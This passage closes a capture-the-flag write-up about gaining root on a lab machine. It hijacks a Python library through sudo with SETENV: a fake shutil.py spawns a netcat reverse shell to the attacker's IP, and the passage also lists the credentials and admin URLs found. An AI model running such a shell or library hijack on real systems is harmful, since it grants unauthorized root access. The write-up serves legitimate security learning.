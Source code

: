 Right now my idea is to some how abuse the fact that when we do `sudo -l` that we have something to do with `SETENV`. I am thinking that we can preserve the `EUID` that the shell script is executed as. Because we know that we can execute `admin_tasks.sh` as root. So there has got to be a way that we can maintain the `EUID` from this process, essentially making us the `root` user. There is also a call to the file `backup.py` in our shell script that we have permission to run. Maybe this could be an attack vector as well, because technically the `backup.py` gets run as root as well. Let's do some research. I found [this](https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7) article. It has to do with being able too write to the file that the python module is importing. Let's see if we can locate this `shutil.py` file. Well it looks like we do not have permission to edit the `shutil.py` file. But what if we can create our own and make the python file being ran to look there. Let's try this in `waldo`'s home directory. I would say do it in `/tmp`, but the machine deletes `/tmp` frequently so it would be a pain to work in. Okay so let's create a file called `shutil.py`. In there we need the same method signature that is in the real `shutil.py` file for the `make_archive` method. In this method we don't need any of the arguments, we just need the method to be called. So I want to spawn a reverse shell. Here is what I have.

```
import os
def make_archive(a, b, c):
  os.system("nc 10.10.14.29 1234 -e'/bin/sh'")
```

Now from here I thought we could just run the script from this directory, but that is not the case. Turns out that this file needs to be in the python `sys.path` I tried adding it to the `sys.path` using some choppy code, but it did not work. Then I read about setting the environmental variable `PYTHONPATH` to so I set it to `/home/waldo`. That didn't work either. But after a hint, it turns out that what we need to do is run it all together as SUDO. First set up your listener on your local machine. Here we run the command `nc -lvnp 1234`, then on the server we need to run the following command: `sudo PYTHONPATH=/home/waldo /opt/scripts/admin_tasks.sh` then select 6. If you set up your listener on your local machine then it should work. Type `whoami` on the reverse shell and you are root! Congratulations. Now to cat out the `/root/root.txt` file. Overall this was a very difficult box for me. I probably worked on it for 8+ hours, but I feel like I learned a lot. Onto the next box!

```
Working Credentials:
ftpuser::%n?4Wz}R$tTF7
waldo::&<h5b~yK3F#{PaPB&dA}{H>
```

```
URLS:
|$IP/admin-dir/
||- contacts.txt
||- credentials.txt  
|$IP/utility-scipts/
||- info.php
||- admin_tasks.php
||- phptest.php
||- adminer.php
|$IP/server-status
```
